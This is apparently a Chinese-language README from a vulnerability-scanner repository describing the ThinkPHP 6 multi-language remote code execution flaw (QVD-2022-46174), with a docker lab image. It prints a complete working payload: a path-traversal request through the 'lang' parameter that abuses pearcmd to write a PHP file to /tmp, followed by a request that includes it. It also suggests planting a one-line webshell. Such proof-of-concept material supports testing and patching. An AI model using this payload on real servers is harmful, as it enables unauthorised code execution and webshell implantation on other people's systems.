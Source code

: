 # ThinkPHP多语言RCE (QVD-2022-46174)

* 运行环境
```
docker run -itd -p 80:80 vulfocus/thinkphp:6.0.12
```

## 简介
如果 Thinkphp 程序开启了多语言功能，攻击者可以通过 get、header、cookie 等位置传入参数，实现目录穿越+文件包含，通过 pearcmd 文件包含这个 trick 即可实现 RCE


利用条件: 需要知道pearcmd物理路径

参考: https://mp.weixin.qq.com/s/jECbQ4KodbCrEvoCQFSosw

## Payload
1. 写入php文件
```
GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=md5(367258)?>+/tmp/367258.php HTTP/1.1
Host: XXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Content-Type: application/x-www-form-urlencoded
Accept: */*
Connection: close
Accept-Encoding: gzip, deflate
```


2. 包含php文件
```
/index.php?lang=../../../../../../../../tmp/367258
```

## vulcat
* 利用vulcat验证漏洞
![](./01.png)
![](./02.png)

* 如果知道网站物理路径，可以尝试写入一句话
![](./03.png)
![](./04.png)
